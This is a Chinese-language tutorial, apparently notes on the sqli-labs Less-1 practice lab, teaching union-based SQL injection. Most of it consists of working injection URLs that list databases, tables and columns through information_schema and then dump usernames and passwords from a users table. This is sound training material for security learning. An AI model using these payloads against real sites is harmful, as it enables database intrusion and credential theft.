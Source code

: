 TABLE_SCHEMA:数据库名

TABLE_NAME:表名

COLUMN_NAME:字段名

## 爆数据库(schemata)

```sql
http://192.168.154.131/sqli/Less-1/?id=-1' union select 1,group_concat(schema_name),3 from information_schema.schemata--+
```

数据库名.表名：information_schema.schemata

## 爆表名(tables)

```sql
http://192.168.154.131/sqli/Less-1/index.php?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+
```

where 之后的条件用来筛选选中的数据库

table_schema为数据库名

table_name为表名

## 爆字段(columns)

```sql
http://192.168.154.131/sqli/Less-1/index.php?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+
```

## 爆数据

由上面的处理已知存在数据表users,users下有username和password两个字段

所以可以构造语句

```sql
http://192.168.154.131/sqli/Less-1/index.php?id=-1' union select 1,group_concat(username),group_concat(password) from users--+
```

查询所有结果或者通过id来查询指定的结果

```sql
http://192.168.154.131/sqli/Less-1/index.php?id=-1' union select 1,username,password from users where id=2--+
```

# 常用函数

group_concat(schema_name)可以查出所有的数据库名
